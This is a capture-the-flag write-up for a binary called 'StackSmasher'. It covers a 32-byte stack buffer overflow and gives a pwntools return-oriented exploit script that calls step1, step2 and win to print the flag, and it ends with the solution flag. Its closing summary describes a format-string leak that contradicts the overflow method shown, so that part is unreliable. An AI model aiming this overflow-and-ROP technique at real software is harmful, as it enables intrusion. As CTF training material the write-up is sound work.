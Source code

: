 # NeuralNet - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/NeuralNet.gif)

---

## Challenge Summary

The StackSmasher binary contains a buffer overflow vulnerability in the func() function, where user input is read into a 32-byte buffer, but 128 bytes are allowed. This allows an attacker to smash the stack and control the program's execution. The goal is to exploit this vulnerability to call the win() function, which prints the flag stored in the FLAG_VAL environment variable.

To achieve this, we must bypass the checks in the win() function by calling step1 and step2 in the right order to make the condition true and trigger the flag output.

## Binary Information

```bash
$ file StackSmasher
```

![Alt text](img/2.png)

```bash
$ checksec StackSmasher
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
int func()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("%s", "Input username:");
  read(0, buf, 0x80uLL);
  return printf("Your name is %s", buf);
}
```

![Alt text](img/4.png)

- The `func()` function reads 128 bytes of input into the 32-byte buffer `buf`, causing a **buffer overflow**.
- This allows control over the **return address**, enabling the attacker to redirect execution to the `win()` function.

### `win()` Function

```c
int win()
{
  int result; // eax
  const char *s; // [rsp+8h] [rbp-8h]

  s = getenv("FLAG_VAL");
  result = first;
  if ( first )
  {
    result = second;
    if ( second )
      return puts(s);
  }
  return result;
}
```

![Alt text](img/5.png)

- The `win()` function requires both `first` and `second` to be set to `1` to print the flag.

### `step1()` and `step2()` Functions

```c
void step1() { first = 1; }
void step2() { second = 1; }
```

- The attacker can call `step1()` and `step2()` by exploiting the buffer overflow to trigger the flag print in `win()`.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}
```
